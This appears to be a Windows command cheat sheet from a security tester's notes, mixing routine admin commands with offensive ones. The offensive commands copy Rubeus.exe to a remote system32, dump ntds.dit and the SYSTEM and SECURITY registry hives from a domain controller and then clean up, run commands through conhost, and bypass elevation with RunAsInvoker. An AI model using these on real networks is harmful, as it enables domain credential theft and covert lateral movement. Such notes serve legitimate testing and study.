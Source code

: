 # Copy files between systems
```batchfile
xcopy "C:\Rubeus.exe" \\<computer>.<domain.local>\C$\Windows\system32\
```

# Dump ntds.dit on a domain controller
```batchfile
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\xn--5o8hui" q q
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\Active Directory\ntds.dit" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SYSTEM" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SECURITY" C:\<dc>\
rmdir /S C:\Windows\Temp\xn--5o8hui\
```

# Run commands via [conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)
```batchfile
conhost cmd.exe
```

# Find files or directories

# Find all files and directories
```batchfile
dir "C:\Users\*.txt" /s
```
## Print only file names (no heading information or summary)
```batchfile
dir /s /b /o:gn "C:\Users\*.txt"
```

# Merge two binary files
```batchfile
copy /b cmd.exe+calc.exe new_cmd.exe
```

# Get hash of a file
```batchfile
certutil -hashfile C:\Windows\System32\cmd.exe SHA256
```

# [Displays the device join status](https://learn.microsoft.com/en-us/azure/active-directory/devices/faq#how-do-i-know-what-the-device-registration-state-of-the-client-is)
```batchfile
dsregcmd.exe /status
```
# Get a list of logged user sessions from a remote computer
## query session
```batchfile
query session /server:[server]
```
### qwinsta
```batchfile
qwinsta /server:[server]
```
## query user
```batchfile
query user /server:[server]
```

# Install Windows applications as current user
```batchfile
set __COMPAT_LAYER=RunAsInvoker
start installer.exe
```

# Find a listening port
```batchfile
netstat -aofn | findstr :10080
```
